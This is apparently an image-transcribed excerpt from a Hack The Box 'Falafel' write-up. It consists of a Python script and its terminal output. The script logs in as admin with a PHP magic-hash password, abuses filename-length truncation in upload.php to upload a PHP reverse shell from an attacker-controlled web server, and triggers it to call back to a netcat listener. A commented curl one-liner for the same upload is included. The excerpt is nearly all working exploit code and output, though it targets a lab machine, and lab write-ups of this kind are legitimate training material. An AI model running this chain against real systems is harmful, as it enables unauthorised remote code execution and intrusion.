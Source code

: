 ```
print("[*] Logging in with admin / 240610708")
s.post(falafel_url + "/login.php", data={"username": "admin", "password": "240610708"} )

# upload php rev_shell
# URL=$(python -c 'print "http://10.10.15.99:8081/" + "B"*232 + ".php.png"'); curl -i -s -k  -X $'POST'     -H $'Referer: http://10.10.10.73/upload.php' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Cookie: PHPSESSID=g9kp8du6ofpc7g8m5d81nt2c00'     --data-binary "url=$URL" $'http://10.10.10.73/upload.php' | grep -e "The name is too long" -e shorten -e "New name" -e CMD
print("[*] Uploading reverse shell php")
resp = s.post(falafel_url + "/upload.php", headers={"Referer": "http://10.10.10.73/upload.php"}, data={"url": "http://" + ip + ":" + str(web_port) + "/" + filename})

# locate shell
path = re.search(r"CMD: cd /var/www/html(/uploads/[\w\-]+);", resp.text).group(1)
file_ = re.search(r"New name is (\w+\.php)\.", resp.text).group(1)

# activate shell
print("[*] Activating shell. Expect callback on {}:{}".format(ip, nc_port))
try:
    s.get("{}{}/{}".format(falafel_url, path, file_), timeout=1)
except requests.exceptions.ReadTimeout:
    pass

print("[*] Cleaning up and exiting")
os.remove(web_dir + "/" + filename)
sys.exit(1)

```

```

root@kali# ./get_falafel_shell.py -h
usage: get_falafel_shell.py [-h] [--web-port WEB_PORT] [-n NC_PORT]
                            [--web-dir WEB_DIR] [--local-ip LOCAL_IP]

optional arguments:
  -h, --help            show this help message and exit
  --web-port WEB_PORT, -w WEB_PORT
                        webserver port
  -n NC_PORT, --nc-port NC_PORT
                        nc port
  --web-dir WEB_DIR, -d WEB_DIR
                        location to serve files from
  --local-ip LOCAL_IP, -i LOCAL_IP
                        local ip

root@kali# ./get_falafel_shell.py -n 9000
[*] Starting webserver thread from /tmp on port 8082
[*] Getting logon.php with phpsession cookie
[*] Logging in with admin / 240610708
[*] Uploading reverse shell php
10.10.10.73 - - [20/Jun/2018 09:30:34] "GET /BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB.php.png HTTP/1.1" 200 -
[*] Activating shell. Expect callback on 10.10.14.159:9000
[*] Cleaning up and exiting

```
